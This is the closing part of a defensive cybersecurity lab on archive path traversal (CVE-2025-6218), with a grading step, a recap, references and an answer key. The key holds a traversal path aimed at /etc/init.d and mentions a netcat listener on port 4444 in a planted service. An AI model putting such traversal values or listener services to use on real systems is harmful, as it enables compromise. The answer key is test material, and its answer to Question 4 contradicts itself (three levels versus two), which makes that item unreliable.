(**Kali-Investigator, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the `Kali` system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![Grading check page for Phase 2](./img/gc2.png)

**Grading Check 2:** Verify initd-watch.service is properly monitoring the /etc/init.d directory and writes a new file alert to /var/log/initd_monitor.log log file.
 - initd-watch.service is correct and running
 - /var/log/init.d_monitor.log contains a valid log alerting on the new file of "hello.txt"

`Copy the token or flag strings to the corresponding question submission field to receive credit. Remember to answer the knowledge check question as well.`

</p>
</details>

## Lab Wrap-up

<details>
<summary>
<h3>Conclusion</h3>
</summary>
<p>

By completing this lab, you walked through how archive files extract their contents and how a weaponized archive could be used to bypass path traversal protections, especially when run in the context of a privileged account. You were able to practice various ways to inspect and review archives for suspicious contents as well as monitoring and logging services to detect suspicious startup or service files.

To recap:
 - You examined how weaponized archive files can be used to achieve path traversal
 - You reviewed how startup items can lead to further compromise of a system
 - You investigated Windows registry artifacts for evidence of compromise
 - You implemented a directory monitoring service

Skills exercised:
 - S0544: Skill in recognizing vulnerabilities
 - S0840: Skill in identifying misuse activities
 - S0846: Skill in monitoring system activity
 - S0882: Skill in performing static analysis
 - S0885: Skill in performing system activity analysis

### References

 - <a href="https://www.cisa.gov/sites/default/files/2024-08/Federal_Government_Cybersecurity_Incident_and_Vulnerability_Response_Playbooks_508C.pdf" target="_blank">CISA's Cybersecurity Incident & Vulnerability Response Playbooks</a>
 - <a href="https://www.cisa.gov/resources-tools/services/logging-made-easy" target="_blank">CISA's Logging Made Easy</a>
 -  <a href="https://www.cisa.gov/news-events/bulletins/sb25-174" target="_blank">CISA's Vulnerability Summary for the Week of June 16, 2025</a>
 - <a href="https://nvd.nist.gov/vuln/detail/CVE-2025-6218" target="_blank">CVE-2025-6218</a>
 - <a href="https://github.com/skimask1690/CVE-2025-6218-POC" target="_blank">CVE-2025-6218 Proof of Concept (POC)</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>
 - <a href="https://owasp.org/www-community/attacks/Path_Traversal" target="_blank">Path Traversal | OWASP Foundation</a>
 - <a href="https://www.win-rar.com/" target="_blank">WinRAR</a>



</p>
</details>

<details>
<summary>
<h3>Answer Key</h3>
</summary>
<p>

**Knowledge Check Question 1:** *What Unix or Linux command can be used to isolate a process to a specific working directory?*

*chroot*

**Knowledge Check Question 2:** *What folder can be used to trigger malicious scripts and executables at boot in Windows?*

*Startup*

**Knowledge Check Question 3:** *If a weaponized archive was extracted path traversals enabled to the "/home/user/tmp/scripts/archive" directory, but contained an item with a relative extraction path of "../../etc/init.d/service.sh", what would the final full path of service.sh be?*

*/home/user/tmp/etc/init.d/service.sh - The relative path only moves up two directory levels, so the rest of the path lands in the `/home/user/tmp/` directory*

**Knowledge Check Question 4:** *How many levels does the weaponized security-update.rar archive expect to go up before matching the rest of the AppData directory structure to extract the .bat file to the Startup folder?*

*3 - The relative path is prepended with "../../../" so the extraction process would try to move up two directory levels*

**Knowledge Check Question 5:** *What is the last modified time value for the eviluser account that was added?*

*16:12:24*

**Knowledge Check Question 6:** *What port is used by netcat as the listener in the evilsvc service?*

*4444*

</p>
</details>

